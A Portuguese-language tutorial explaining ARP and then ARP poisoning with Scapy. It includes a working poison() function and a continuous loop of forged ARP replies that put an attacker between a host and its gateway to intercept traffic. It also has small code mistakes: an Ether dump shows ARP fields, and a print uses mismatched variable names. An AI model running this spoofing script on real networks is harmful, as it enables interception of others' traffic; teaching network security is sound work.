




# Tabela de conteúdos
1. [ARP](#arp)
    1. [Cabeçalho ARP](#cabeçalho-arp)
    2. [ARP request e Scapy](#arp-request-e-scapy)
    3. [ARP reply e Scapy](#arp-reply-e-scapy)
2. [ARP poisoning](#arp-poisoning)
    1. [Ataques](#ataques)
    2. [Atacando com Scapy](#atacando-com-scapy)
3. [Referências](#referências)


# 1. ARP

> Definido pela RFC 826

O protocolo arp tem objetivo de descobrir qual endereço MAC está associado a determinado IPv4 na rede. 
Para que duas máquinas em uma rede ethernet se comuniquem, é necessário que o host que enviará os pacotes conheça o endereço MAC de destino. 

Um host "A" deseja acessar um servidor WEB "B" na mesma rede. Para que isso aconteça, o primeiro host envia um pacote com destino broadcast para a Ethernet perguntando qual host possui o endereço ip de B. Quando o pacote chegar em B, ele responderá com o seu endereço MAC. Os outros hosts descartarão o pacote, pois não são o alvo da requisição. Quando o host A receber a resposta, a sua tabela ARP de endereços é atualizada e para uma futura comunicação entre os dois hosts, não será necessário realizar um novo ARP, pois o endereço MAC agora estará associado ao endereço IP da máquina de destino. 

> Exemplo de uma tabela ARP antes de realizar um ping para 150.165.37.4. 


> Exemplo da tabela ARP após realizar o ping para 150.165.37.4. 


Note que uma entrada foi adicionada - a associação entre os endereços IP e MAC do host alvo.
Para acessar a tabela arp, na maioria das distribuições linux e windows, utilize o comando "arp -a".

## 1.1. Cabeçalho ARP


## 1.2. ARP request e Scapy
O ARP request é feito pelo host que deseja enviar o pacote na rede, e para isso, precisa descobrir o MAC alvo.
O destino (broadcast) é levado no cabeçalho Ethernet, já o "alvo" do request - o endereço IP que queremos descobrir o MAC - está no cabeçalho do ARP. Todos os hosts na rede receberão o pacote, visto que o destino é broadcast. O alvo do ARP request enviará um ARP reply para o host de origem, e os outros hosts descartarão o pacote.

Na imagem abaixo, é possível ver através do wireshark como acontece quando um ARP request é feito.



Alguns pontos importantes para criação de um pacote ARP request foram destacados.
* Seta azul (primeira): É o destino, definido pelo Ethernet. Isso acontence pois o ARP request é feito em broadcast, mas somente o alvo responde.
* Seta vermelha (segunda): É o endereço MAC do alvo. O ARP request é feito exatamente para consegui-lo, sendo assim, ao enviar o pacote, não temos o valor desse MAC.
* Seta verde (terceira): É o endereço IP do alvo. Ele é necessário para indicar que queremos o endereço MAC do host com aquele endereço IP.

### Importando scapy

Utilizando o scapy, é possível manipular um pacote ARP através de seus campos. Assim, é fácil de visualizar como ocorre na prática. No exemplo abaixo, note que todas as funções do scapy foram importadas, mas é interessante importar somente as que serão utilizadas quando estiver criando um script.


```python
from scapy.all import *
conf.verb=1
conf.color_theme = RastaTheme()
```

### Criando e encapsulando


```python
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
ether.show()
```
<div style='background-color: #eaeaea; color: black'>  
    <pre>
    ###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 50:46:5d:ce:73:48
  psrc      = 150.165.37.3
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0
    </pre>
  </div>

```python
arp = ARP()
arp.show()
```

 <div style='background-color: #eaeaea; color: black'>  
    <pre> 
   ###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 50:46:5d:ce:73:48
  psrc      = 150.165.37.3
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0    
    </pre>
    </div>

Para que o pacote forjado funcione como ARP request, é necessário definir o endereço IP alvo, como será feito a seguir. Note que o cabeçalho arp foi atualizado com o novo IP.


```python
arp.pdst = "150.165.37.4"
arp.show()
```
<div style='background-color: #eaeaea; color: black'>  
    <pre>
    ###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 50:46:5d:ce:73:48
  psrc      = 150.165.37.3
  hwdst     = 00:00:00:00:00:00
  pdst      = 150.165.37.4
 </pre>
    </div>

O encapsulamento com scapy é facilmente definido ao utilizar "/". Também é possível visualizar o pacote como um todo, ao utilizar a função "show()" no pacote encapsulado.


```python
pacote = ether/arp
pacote.show()
```

 <div style='background-color: #eaeaea; color: black'>  
    <pre>
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 50:46:5d:ce:73:48
  type      = ARP
###[ ARP ]### 
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = who-has
     hwsrc     = 50:46:5d:ce:73:48
     psrc      = 150.165.37.3
     hwdst     = 00:00:00:00:00:00
     pdst      = 150.165.37.4
     </pre>
</div>


### Enviando o pacote e recebendo a resposta


Existem algumas formas de enviar um pacote utilizando o scapy
- sendp(): Envia um pacote que começou na segunda camada (quando se cria o pacote manualmente)
- send(): Envia um pacote que começou na terceira camada (quando se cria o pacote manualmente)
- srp(): Envia um pacote e espera a sua resposta, mesmo princípio do sendp() em relação a camada
- sr(): Envia um pacote e espera sua resposta, mesmo princípio do send() em relação a camada
>Estaremos utilizando srp(), visto que nosso pacote consiste em Ether()/ARP()


```python
resposta, semresposta = srp(pacote)
resposta.show()
```

<div style='background-color: #eaeaea; color: black'>  
<pre style="white-space: pre-wrap">
    Begin emission:
    Finished sending 1 packets.
    
    Received 1 packets, got 1 answers, remaining 0 packets
    0000 Ether / ARP who has 150.165.37.4 says 150.165.37.3 
    ==> Ether / ARP is at 08:00:27:47:e2:e7 says 150.165.37.4 / Padding
</pre>
</div>

De um lado temos o arp request (forjado através do scapy) e do outro a resposta recebida. 
O pacote enviado também foi capturado pelo wireshark, abaixo é possível visualizar através dele.


## 1.3. ARP reply e Scapy

O ARP reply é a reposta de um host B ao receber o request do host A. É o momento em que é enviado o endereço MAC para quem o solicitou primeiramente.
Observando um ARP reply pelo wireshark, é possível perceber algumas diferenças nos campos do protocolo, em relação ao request. 
- Primeiramente, o endereço de destino (ethernet), não será mais broadcast, visto que a máquina que recebeu o request sabe de onde veio.
- Não há campos vazios.
- O código de operação agora é 2 (reply)


### Gratuitous ARP reply e Scapy

Quando se envia um ARP reply sem a existência de um ARP request anterior, trata-se de um gratuitous ARP reply.
O ARP reply gratuito pode ser usado para atualizar tabelas com MAC quando acontece uma mudança. No caso do ARP poisoning, será utilizado para atualizar o cache ARP com informações falsas.

Para forjar um ARP reply através do Scapy, precisamos saber o endereço IP e MAC de destino. 

Note que os endereços IP e MAC de origem do Scapy são o da própria máquina, sendo assim, ao enviar um ARP reply sem alterá-los, estamos "respondendo" o host alvo com nosso endereço MAC. Caso a tabela ARP do host alvo já tenha nosso endereço IP associado ao MAC, simplesmente será atualizado. Caso não tenha, será adicionado.

> No exemplo abaixo, capturado pelo wireshark, foram realizados 4 ARP replies sem request prévio (utilizando o Scapy). Além disso, os valores padrão não foram alterados, então o reply simplesmente atualiza o cache da máquina alvo com valores reais.

>Note que será feito de uma forma direta, sem atribuir os valores à variáveis como feito anteriormente.


```python
sendp(Ether()/ARP(pdst="150.165.37.4", hwdst="08:00:27:47:e2:e7", op=2), count=4)
```

 <div style='background-color: #eaeaea; color: black'>  
    <pre>
    Sent 4 packets.
    </pre>
  </div>


> No próximo exemplo, será forjado um ARP reply com valores falsos com o Scapy. Note que passo o endereço IP de outra máquina como origem. Além disso, o endereço MAC passado não existe.


```python
sendp(Ether()/ARP(pdst="150.165.37.4", hwdst="08:00:27:47:e2:e7", psrc="150.165.37.9", hwsrc="50:46:50:45:50:46", op=2), count=4)
```

<div style='background-color: #eaeaea; color: black'>  
    <pre>
    Sent 4 packets.
    </pre>
 </div>


> Note que o host alvo não conseguirá se comunicar com o endereço 150.165.37.9, visto que o MAC adicionado à sua tabela ARP não existe. Eventualmente, uma nova consulta será feita por parte do host alvo e o cache será atualizado com valores reais.

# 2. ARP poisoning

OBS para verificar: em algumas literaturas, arp spoofing é o mesmo de arp poisoning. Em outras, é diferente.
Normalmente, o conceito de arp spoofing (quando aparece diferente de arp poisoning) é o mesmo de MAC spoofing.

O ARP poisoning, ou ARP spoofing, é um perigo enorme para redes Ethernet. O ataque consiste em forjar gratuitous ARP replies para que um, dois ou mais hosts alvo atualizem o cache da tabela ARP com valores falsos. Os valores falsos enviados abrem brecha para ataques diferentes. 

No geral, o ARP spoofing é utilizado para ataques man in the middle.


## 2.1. Ataques

### Isolando hosts

É possível evitar que hosts se comuniquem entre si em uma rede, assim como que consigam acessar redes exteriores ao gateway. Isso pode ser feito divulgando endereços MAC falsos para os hosts na rede.

#### Isolar um host A da comunicação dentro da própria rede
Isso pode ser feito garantindo que as outras máquinas na rede acreditem que o host A tem um determinado endereço MAC, que na verdade não existe na rede. Ao tentar comunicação com o host A, os pacotes não chegarão a lugar algum.

#### Isolar um ou vários hosts da comunicação com a internet
Segue o mesmo princípio do tópico anterior, mas aqui o host isolado seria o próprio gateway da rede.
Isso poderia ser feito falsificando os valores nas tabelas ARP de vários hosts na rede ou de algum específico. Note que como qualquer ataque que atinja uma quantidade grande de hosts, ou toda a rede, é bem barulhento. Sendo assim, é fácil visualizar que tem algo suspeito acontecendo.


### MITM (Man in the middle)
Utilizando o man in the middle também é possível realizar os ataques do tópico "Isolando hosts".
Diferente dos ataques anteriores, nossa máquina invasora estará no meio da comunicação, não somente falsicando correspondências do cache ARP sobre outros hosts na rede, mas participando ativamente para interceptação de informações.

A ideia principal de um ataque man in the middle utilizando ARP spoofing é fazer com que dois ou mais hosts na rede pensem que a maquina do invasor é o destino da comunicação.

Um host A deseja acessar um servidor web na internet. Um invasor sabe que para isso acontecer, os pacotes passarão pelo gateway. Também sabe que posteriormente, o gateway enviará pacotes em direção ao host A para que a comunicação aconteça. O invasor, então, utiliza o ARP spoofing para realizar um ataque MITM e intercepta a comunicação. O novo caminho lógico entre o host A e o gateway passará pela máquina do invasor, sendo assim, todo tráfego não criptografado será facilmente roubado pelo invasor.



#### Interceptando pacotes
Nesse tipo de ataque MITM, o host invasor estará no meio (de forma lógica) da comunicação entre dois hosts na rede, e é o uso principal para o MITM. Normalmente, um dos hosts é o gateway.

#### Como ocorre?
O invasor envia diveros gratuitous ARP replies, continuamente, para as máquinas que deseja envenenar.
Nos pacotes falsificados, o host A atualizará sua tabela ARP associando o IP do gateway com o endereço MAC do invasor. Do outro lado, o gateway atualizará sua tabela arp correspondendo o endereço IP do host A com o do invasor. Sendo assim, um novo caminho lógico é criado, e os pacotes que fazem parte da comunicação host A - gateway passarão através da máquina do invasor.

Quando um pacote que não é destinado ao seu host chega, ele é descartado (isso será usado para um ataque de isolamento utilizando MITM). Então para que a interceptação de pacotes possa ocorrer, precisamos habilitar o IP forwarding na nossa máquina. Ao habilitar o IP forwarding, a sua máquina atuará como um roteador, transferindo pacotes de uma rede até outra, ou nesse caso, de uma parte da rede até outra.

#### Isolando hosts
Com o IP forwarding habilitado, os pacotes passam atraveś do host do invasor e a comunicação ocorre normalmente, mas os dados podem ser visualizados.
Para isolar o host A da comunicação, basta desabilitar o IP forwarding durante o ataque Man in the middle. Assim, garantindo que a tentativa do host A de acessar a internet nunca chegue ao gateway.

## 2.2. Atacando com Scapy
Revisando o processo de ataque MITM com interceptação, temos:
1. Invasor habilita IP forwarding 
2. Invasor escolhe vítima(s)
3. Invasor consegue endereço MAC de ambos
4. Invasor envia um fluxo constante de gratuitous ARP replies falsificados para as vítimas
4. Invasor intercepta comunicação utilizando um sniffer na rede


### Habilitando IP forwarding
O IP forwarding será ativado através do sysctl na distribuição linux Arch
- sysctl -w net.ipv4.ip_forward=1

Para desativar, basta trocar de 1 para 0

### Escolhendo vítimas
Os hosts serão a máquina 192.168.1.11 e o gateway 192.168.1.1

A ideia é capturar o tráfego entre 192.168.1.11 e a internet, principalmente protocolos sem segurança de encriptação.

### Conseguindo os endereços MAC
Isso pode ser feito de várias formas, mas sempre com base em um ARP request.
Pode-se tentar enviar pings para os hosts, assim o cache ARP será atualizado com os endereços MAC das vítimas, por exemplo.
Para a criação do script, pode-se utilizar a função nativa do scapy "getmacbyip()" ou forjar um ARP request e analisar sua reposta ao enviar para cada host alvo.


```python
alvo_MAC = getmacbyip("192.168.1.11")
gateway_MAC = getmacbyip("192.168.1.1")
print(alvoMAC, gatewayMAC)
```
<div style='background-color: #eaeaea; color: black'>  
    <pre>
    70:85:c2:a0:16:c0 e8:01:8d:18:49:38
    </pre>
 </div>

### Fluxo constante de gratuitous ARP replies
Serão criados pacotes com as seguintes informações falsas:

- Para o host alvo, diremos que o endereço IP do gateway está em nosso MAC.
- Para o gateway, que o endereço IP do host alvo está em nosso MAC.

Também será criada uma função poison() que receberá os valores necessários e atuará continuamente em um laço de repetição While.


```python
def poison(IP_alvo1, IP_alvo2, MAC_alvo1):
    arp_reply = Ether()/ARP(pdst=IP_alvo1, hwdst=MAC_alvo1, psrc=IP_alvo2, op=2)
    sendp(arp_reply, verbose=0)
```

Detalhes da função criada:
- Arp reply (operation code é 2)
- Destinado para o IP passado do alvo 1
- MAC do alvo 1 passado, visto que é necessário para que o pacote chegue até ele
- O endereço IP de origem não é o da máquina do invasor, e sim do alvo 2 - nesse caso, do gateway
- Note que o endereço MAC de origem não foi alterado, é o da máquina do invasor

Dessa forma, diremos ao alvo 1 que o alvo 2 tem o endereço MAC da nossa máquina, isso pode ser visto pois o endereço MAC de origem do pacote é o da máquina do invasor, mas o IP do gateway.

Como o ARP reply é feito para atualizar a tabela ARP das máquinas na rede, ela será atualizada com a seguinte informação:
- IP do gateway está associado ao MAC do invasor


```python
while True: 
    poison("192.168.1.11", "192.168.1.1", alvo_MAC)
    poison("192.168.1.1", "192.168.1.11", gateway_MAC)
```



Ao analisar a execução do ARP spoofing através do wireshark, é possível visualizar os ARP reply falsificados sendo enviados continuamente.

# 3. Referências

OBS: Organizar referências:
- Análise de tráfego em redes TCP/IP - João Eriberto Mota Filho
- Redes de computadores - Tanenbaum / Wetheral
- Documentação Scapy - https://scapy.readthedocs.io/en/latest/
- RFC 826 
- ...


